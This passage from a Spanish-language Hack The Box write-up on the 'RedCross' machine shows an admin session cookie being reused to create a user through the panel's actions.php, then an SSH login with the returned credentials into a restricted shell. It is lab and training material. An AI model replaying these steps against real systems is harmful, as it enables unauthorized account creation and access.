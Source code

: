 ![admin users](/img/htb-redcross/http-admin-users.png)

Como podemos observar, se trata de una pagina donde crearemos usuarios virtuales con permisos limitados. Crearemos al usuario miau:

``` html
xbytemx@laptop:~/htb/redcross$ http --verify=no -f POST "https://admin.redcross.htb/pages/actions.php" "Cookie:PHPSESSID=oiuslv12i7j2urs7u86etj3bq6; LANG=EN_US; SINCE=1553146196; LIMIT=10; DOMAIN=admin;" username=miau action=adduser
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 111
Content-Type: text/html; charset=UTF-8
Date: Thu, 21 Mar 2019 06:37:05 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Keep-Alive: timeout=5, max=100
Pragma: no-cache
Server: Apache/2.4.25 (Debian)
Vary: Accept-Encoding

Provide this credentials to the user:<br><br><b>miau : E8z6e6iL</b><br><br><a href=/?page=users>Continue</a>

```

Estas credenciales nos servirán para poder ingresar por SSH:

``` text
xbytemx@laptop:~/htb/redcross$ ssh miau@admin.redcross.htb
The authenticity of host 'admin.redcross.htb (10.10.10.113)' can't be established.
ECDSA key fingerprint is SHA256:yd04sZox5Ub78YD9IP7Yrslhv2TgP7lcFNiOBpZjCfk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'admin.redcross.htb,10.10.10.113' (ECDSA) to the list of known hosts.
miau@admin.redcross.htb's password:
Linux redcross 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
$ id
uid=2026 gid=1001(associates) groups=1001(associates)
```

Pronto nos daremos cuenta de lo limitada que es esta shell y que no cuenta con muchas herramientas que nos permitan escalar directamente a algún otro usuario o inclusive salir, al menos yo no encontré la manera.

# RCE
